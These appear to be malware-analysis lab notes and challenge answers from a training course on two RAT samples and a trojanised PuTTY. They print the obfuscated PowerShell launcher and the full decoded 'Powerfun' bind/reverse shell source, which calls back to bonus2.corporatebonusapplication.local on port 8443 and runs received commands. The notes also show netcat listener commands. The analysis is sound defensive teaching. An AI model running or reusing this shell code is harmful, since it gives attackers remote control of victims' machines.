


---

### Host-Based TCP Artifacts & TCPView

When analyzing malware, it's important to recognize that some network-related indicators are only observable from the host itself, not on the network wire. These are known as TCP artifacts. For example, when a binary initiates a TCP connection, the operating system uses specific functions to open sockets and manage connections. These events can be detected as host-based indicators, even if they don't appear in network captures like Wireshark.

**Key Points:**
- **TCP Artifacts:** Indicators such as opened sockets and outbound connections are visible on the host, not on the network wire.
- **Detection Tools:** Tools like TCPView (from the Sysinternals Suite) allow you to monitor active TCP connections and sockets on the host.




---

### Command Injection & Bind Shell Analysis

During dynamic analysis, the malware was observed opening a listening socket on TCP port 5555. Data sent and received over this socket was Base64 encoded, as confirmed by decoding responses to commands such as `id` and `whoami`. This behavior demonstrates command injection capability, with the malware executing system commands and returning their output in Base64 format.

Screenshots captured during analysis (see below) provide evidence of successful command execution and exception handling. The malware responds to valid commands with their output and to invalid commands with error messages, confirming robust command execution logic.



Further investigation using ProcMon and TCPView revealed:
- The process opens, sends, receives, and disconnects TCP connections on port 5555.
- ProcMon can be used to filter for TCP operations, providing additional insight into socket activity beyond what TCPView offers.
- The malware attempts to locate and execute binaries such as `whoami.exe` from the system, returning results to the connected client.

This confirms the sample is a remote access trojan (RAT) with bind shell and command injection capabilities. Any client connecting to port 5555 can issue commands, which are executed on the infected host and returned via TCP.

**Final Sample Name:** `ratcmdshell.exe` (reflecting its bind shell and command injection functionality)

---

# Basic Dynamic Analysis: `rat.unknown2.exe`

This section documents the analysis of the second sample, `rat.unknown2.exe`, located in the 2.BasicDynamicAnalysis directory. The IR team provided hashes and a readme, noting this sample is similar to the previous RAT and is likely custom and previously unseen in the wild.

## Initial Artifacts

| Artifact Type | Details |
|--------------|--------|
| **MD5 Hash**      | c211704777e168a5151de79dc87ffac7 |
| **SHA-256 Hash**  | c522e0f1f9edb7e03c0a770e4c52a93db72dce21e7247322f4bbd5b053b967aab5240ce90d6aa65a79e3a3068f227346bf0190f9ca762fb8e8d076a58490d7a1 |
| **Archive Password** | infected |
| **Extraction Method** | 7-zip archive, extracted to desktop |
| **Sample Name**   | rat.unknown2.exe |

## Basic Static Artifact Collection

| Step | Tool/Method | Result/Notes |
|------|-------------|--------------|
| Extract readable strings | FLOSS | NIM libraries, socket callouts, cmd.exe /c, .local, no clear URLs or IPs |
| IAT/API analysis | PEStudio | VirtualProtect flagged, but not definitive; connect, select, send (network group) |
| Hashes & VT | Provided/uploaded | No results on VirusTotal (custom sample) |

- Strings analysis reveals NIM compilation, socket-related functions, and command execution capability (cmd.exe /c), but no clear network indicators.
- IAT/API analysis shows some suspicious calls, but nothing conclusive.

## Dynamic Analysis: rat.unknown2.exe

- Remnux, INetSim, and Wireshark running to capture network traffic.
- Sample executed after reverting VM to clean state.

| Indicator Type   | Details |
|------------------|---------|
| **Network**      | Socket open, send, receive operations detected; no clear external network indicators or URLs observed |
| **Host**         | Command execution capability (cmd.exe /c); socket activity confirmed |
| **Other**        | NIM libraries and socket functions present |

- Dynamic analysis confirms socket capability and command execution, but no external network indicators (likely by design).
- ProcMon and TCPView can be used to monitor socket operations and process activity.
- The sample demonstrates similar behavior to the previous RAT, focusing on local socket and command execution rather than external communication.





### Additional Dynamic Analysis Findings

During dynamic analysis of `rat.unknown2.exe`, DNS queries were observed for the domain `aaaaaaaaaaaaaaaaaaaa.kadusus.local` (A record). This domain is not present in the static strings, indicating the use of `runtime string construction—a `common malware tactic to evade detection by breaking up and assembling strings only during execution.

- The DNS query is built at runtime, concatenating multiple 'a' characters with the domain suffix.
- No HTTP or TCP network traffic was observed; the primary network indicator is the DNS callout.
- ICMP traffic was also observed but failed, further confirming the lack of other network protocols in use.

- DNS query for `kadusus.local`:
  

#### Analyst Technique: Hosts File Redirection
To further analyze the sample, the hosts file can be edited to redirect`aaaaaaaaaaaaaaaaaaaa.kadusus.local`  to `127.0.0.1`, tricking the malware into thinking it is connecting to its intended server. This is useful for observing additional behavior or callbacks.

---

### Reverse Shell & Network Behavior Summary

Further dynamic analysis of `rat.unknown2.exe` revealed the following:

- The binary attempts to resolve a DNS A record for `aaaaaaaaaaaaaaaaaaaa.kadusus.local`, constructed at runtime to evade static detection.
- By editing the hosts file to redirect this domain to `127.0.0.1`, the analyst can trick the malware into connecting to the local machine.
- ProcMon output shows a successful TCP connection to `kadusus.local` on port 443 (HTTPS), confirming the use of encrypted communication.
- Setting up a listener (e.g., with `nc -nvlp 443`) allows the analyst to observe the malware establishing a reverse shell connection.
- Once connected, the analyst can issue commands (e.g., `whoami`, `id`) and receive output, demonstrating full reverse shell capability.
- TCP connect, send, and receive operations are visible in ProcMon, confirming the malware's network and command execution behavior.

- ProcMon output showing DNS and TCP activity:
  
- Reverse shell connection established:
  

### Parent-Child Process Relationships in Reverse Shells

In part two of the reverse shell analysis for `rat.unknown2.exe`, we broadened our ProcMon filters to observe not just TCP activity, but all process events. By issuing commands like `id`, we confirmed the malware's behavior: it attempts to execute commands by searching for binaries in the current working directory, then in System32 if not found. Successful execution results in TCP send/receive events wrapping the command output.

A key concept for defenders and analysts is the parent-child process relationship. Using ProcMon's process tree feature, we observed:
- `rat.unknown2.exe` is spawned as a child of `explorer.exe` (the main Windows interactive process).
- When the malware executes a command (e.g., `ipconfig`, `id`, `whoami`), it spawns a child process: `cmd.exe` with the relevant arguments.
- The process tree clearly shows `rat.unknown2.exe` as the parent, with multiple child `cmd.exe` processes for each command executed.

This relationship is crucial for detection: unknown executables spawning `cmd.exe` and further commands is a strong indicator of suspicious activity. Advanced endpoint detection products often visualize these relationships to help analysts spot anomalies.

  


**Analyst Tip:**
- Don't just filter by process name; filter by Parent PID (PPID) to capture all child processes spawned by the malware. This reveals the full scope of command execution and process spawning.

**Summary:**
- `rat.unknown2.exe` demonstrates classic reverse shell behavior, spawning child processes for command execution and returning output via TCP.
- Parent-child process analysis in ProcMon is essential for understanding and detecting malware behavior.
- `rat.unknown2.exe` is a NIM-compiled reverse shell trojan that constructs its DNS callout at runtime, connects to a specified domain on port 443, and provides remote command execution via a reverse shell.
- Key indicators: DNS A record for `kadusus.local`, TCP connection on port 443, reverse shell behavior, runtime string construction.
- Analyst techniques: hosts file redirection, ProcMon filtering, listener setup for reverse shell interaction.

# Challenge 1: SillyPutty

Hello Analyst,

The help desk has received a few calls from different IT admins regarding the attached program. They say that they've been using this program with no problems until recently. Now, it's crashing randomly and popping up blue windows when it's run. I don't like the sound of that. Do your thing!

IR Team

## Objective
Perform basic static and basic dynamic analysis on this malware sample and extract facts about the malware's behavior. Answer the challenge questions below. If you get stuck, the `answers/` directory has the answers to the challenge.

## Tools
**Basic Static:**
- File hashes
- VirusTotal
- FLOSS
- PEStudio
- PEView

**Basic Dynamic Analysis:**
- Wireshark
- Inetsim
- Netcat
- TCPView
- Procmon

## Challenge Questions

### Basic Static Analysis
- What is the SHA256 hash of the sample?
- What architecture is this binary?
- Are there any results from submitting the SHA256 hash to VirusTotal?
- Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
- Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
- Is it likely that this binary is packed?

### Basic Dynamic Analysis
- Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?
- From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
- What is the DNS record that is queried at detonation?
- What is the callback port number at detonation?
- What is the callback protocol at detonation?
- How can you use host-based telemetry to identify the DNS record, port, and protocol?
- Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?

## Challenge 1: SillyPutty — Static Analysis Notes

### 1. Sample Hashes
- **SHA256:** 0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83
- **MD5:** 334a10500feb0f3444bf2e86ab2e76da
- **SHA1:** c6a97b63fbd970984b95ae79a2b2aef5749ee463


!!! note
    `PEstudio` could also show teh hash values and architecture 

### 2. Architecture
- 32-bit executable (putty.exe)

### 3. VirusTotal Results

- 60/70 security vendors flagged this file as malicious
- Community Score: -3
- Crowdsourced YARA rules matched: SUSP_PS1_FromBase64String_Content_Indicator, Windows_Trojan_Metasploit
- Tags: peexe, long-sleeps, detect-debug-environment, direct-cpu-clock-access, runtime-modules, checks-user-input

### 4. Strings Analysis
- **Tool:** FLOSS
- **Interesting Strings:**

!!! note
    Should use floss with `-n 8`, cut down any strings to be minimum 8 

``` powershell
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAOW/UWECA51W227jNhB991cMXHUtIRbhdbdAESCLepVsGyDdNVZu82AYCE2NYzUyqZKUL0j87yUlypLjBNtUL7aGczlz5kL9AGOxQbkoOIRwK1OtkcN8B5/Mz6SQHCW8g0u6RvidymTX6RhNplPB4TfU4S3OWZYi19B57IB5vA2DC/iCm/Dr/G9kGsLJLscvdIVGqInRj0r9Wpn8qfASF7TIdCQxMScpzZRx4WlZ4EFrLMV2R55pGHlLUut29g3EvE6t8wjl+ZhKuvKr/9NYy5Tfz7xIrFaUJ/1jaawyJvgz4aXY8EzQpJQGzqcUDJUCR8BKJEWGFuCvfgCVSroAvw4DIf4D3XnKk25QHlZ2pW2WKkO/ofzChNyZ/ytiWYsFe0CtyITlN05j9suHDz+dGhKlqdQ2rotcnroSXbT0Roxhro3Dqhx+BWX/GlyJa5QKTxEfXLdK/hLyaOwCdeeCF2pImJC5kFRj+U7zPEsZtUUjmWA06/Ztgg5Vp2JWaYl0ZdOoohLTgXEpM/Ab4FXhKty2ibquTi3USmVx7ewV4MgKMww7Eteqvovf9xam27DvP3oT430PIVUwPbL5hiuhMUKp04XNCv+iWZqU2UU0y+aUPcyC4AU4ZFTope1nazRSb6QsaJW84arJtU3mdL7TOJ3NPPtrm3VAyHBgnqcfHwd7xzfypD72pxq3miBnIrGTcH4+iqPr68DW4JPV8bu3pqXFRlX7JF5iloEsODfaYBgqlGnrLpyBh3x9bt+4XQpnRmaKdThgYpUXujm845HIdzK9X2rwowCGg/c/wx8pk0KJhYbIUWJJgJGNaDUVSDQB1piQO37HXdc6Tohdcug32fUH/eaF3CC/18t2P9Uz3+6ok4Z6G1XTsxncGJeWG7cvyAHn27HWVp+FvKJsaTBXTiHlh33UaDWw7eMfrfGA1NlWG6/2FDxd87V4wPBqmxtuleH74GV/PKRvYqI3jqFn6lyiuBFVOwdkTPXSSHsfe/+7dJtlmqHve2k5A5X5N6SJX3V8HwZ98I7sAgg5wuCktlcWPiYTk8prV5tbHFaFlCleuZQbL2b8qYXS8ub2V0lznQ54afCsrcy2sFyeFADCekVXzocf372HJ/ha6LDyCo6KI1dDKAmpHRuSv1MC6DVOthaIh1IKOR3MjoK1UJfnhGVIpR+8hOCi/WIGf9s5naT/1D6Nm++OTrtVTgantvmcFWp5uLXdGnSXTZQJhS6f5h6Ntcjry9N8eXQOXxyH4rirE0J3L9kF8i/mtl93dQkAAA=='))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

**How to decode the obfuscated PowerShell payload in Linux:**

1. Copy the Base64 string (everything inside the single quotes after `FromBase64String`).
2. Save it to a file, e.g., `payload.b64`.
3. Decode and decompress using `base64` and `gzip`:
   ```bash
   cat payload.b64 | base64 -d | gzip -d > payload.txt
   ```
   This will output the decompressed PowerShell script to `payload.txt`, which you can then review.

**One-liner:**
```bash
base64 -d payload.b64 | gzip -d > payload.txt
```
Replace `payload.b64` with your filename containing the Base64 string.

---

**Decoded PowerShell Payload:**

```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
  $wc = New-Object -TypeName Net.WebClient
  $wc.UseDefaultCredentials = $true
  $wc.Proxy.Credentials = $wc.Credentials
  $wc
}
function powerfun 
{ 
  Param( 
  [String]$Command,
  [String]$Sslcon,
  [String]$Download
  ) 
  Process {
  $modules = @()  
  if ($Command -eq "bind")
  {
    $listener = [System.Net.Sockets.TcpListener]8443
    $listener.start()    
    $client = $listener.AcceptTcpClient()
  } 
  if ($Command -eq "reverse")
  {
    $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
  }

  $stream = $client.GetStream()

  if ($Sslcon -eq "true") 
  {
    $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
    $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
    $stream = $sslStream 
  }

  [byte[]]$bytes = 0..20000|%{0}
  $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
  $stream.Write($sendbytes,0,$sendbytes.Length)

  if ($Download -eq "true")
  {
    $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)
    ForEach ($module in $modules)
    {
      (Get-Webclient).DownloadString($module)|Invoke-Expression
    }
  }

  $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
  $stream.Write($sendbytes,0,$sendbytes.Length)

  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
  {
    $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
    $data = $EncodedText.GetString($bytes,0, $i)
    $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

    $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
    $x = ($error[0] | Out-String)
    $error.clear()
    $sendback2 = $sendback2 + $x

    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()  
  }
  $client.Close()
  $listener.Stop()
  }
} 
```

What does the decoded PowerShell payload do?

Implements a backdoor called "Powerfun" that provides remote command execution via TCP.
Supports two modes:
- Bind shell: Listens on TCP port 8443 for incoming connections.
- Reverse shell: Connects out to bonus2.corporatebonusapplication.local on port 8443.
Optionally wraps the connection in SSL if requested.
Sends a PowerShell prompt and system info to the remote client.
Receives commands over the TCP stream, executes them with PowerShell, and returns the output.
Can download and execute additional modules if instructed.
Cleans up errors and maintains an interactive session until the connection closes.
This payload enables an attacker to remotely control the infected system, execute arbitrary PowerShell commands, and extend functionality by loading more code.

## Dynamic Analysis Notes

**Initial Detonation Observations:**

- At first detonation, if INetSim on REMnux is not running, the malware executes its embedded PowerShell payload.
- The process tree (see screenshot below) shows `powershell.exe` and a child `conhost.exe` process, indicating the script is running interactively.
- This behavior confirms the payload is being executed locally, and no network callback or shell is established without internet simulation.


**Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?**

 Executing the program spawns PuTTY, which appears to be the normal program. If you look closely, it also spawns a blue window for a brief moment, which is in line with the scenario brief in the README.



**From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?**

The blue window that appears momentarily is a powershell.exe window. Either by using that as a pivot point and filtering on "Process name contains powershell" or by examining the child processes that are spawned from putty.exe, you can find a child `powershell.exe` process spawned at detonation with putty.exe as its parent. When examining the powershell.exe process in Procmon, the arguments indicate that Powershell is executing a Base64 encoded and compressed string at detonation.

`Bonus:` If you base64 decode that string and then extract it using 7zip or the unzip utility on REMNux, the resulting stream can be written to an outfile. There, you can see the full text of the powershell reverse shell that is calling out to `bonus2.corporatebonusapplication.local`.




 What is the DNS record that is queried at detonation?**

The DNS record is `bonus2.corporatebonusapplication.local`. This can be found in Wireshark by filtering for DNS records at detonation.

**What is the callback port number at detonation?**

The port is 8443.





**What is the callback protocol at detonation?**

The protocol is SSL/TLS. This can be identified in Wireshark by the initiation of a CLIENT HELLO message from the detonation to the specified domain.


**How can you use host-based telemetry to identify the DNS record, port, and protocol?**

This can be accomplished by filtering on the name of the binary and adding an additional filter of "Operation contains TCP" in procmon.


**Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?**

A: The shell does not spawn without a proper TLS handshake, so using a basic ncat listener on port 8443 does not initiate a shell. The syntax of the PowerShell reverse shell requires TLS to complete the network transaction, so even if you use the `hosts` file and open up a listener on port 8443 to catch the incoming shell, you cannot coerce the binary to connect unless you can also provide a valid SSL certificate.

There are a few ways to coerce a shell to spawn from this binary. One is to use ncat with the `--ssl` option along with rerouting the traffic to the localhost like before:

```bash
ncat -nvlp 8443 --ssl
```

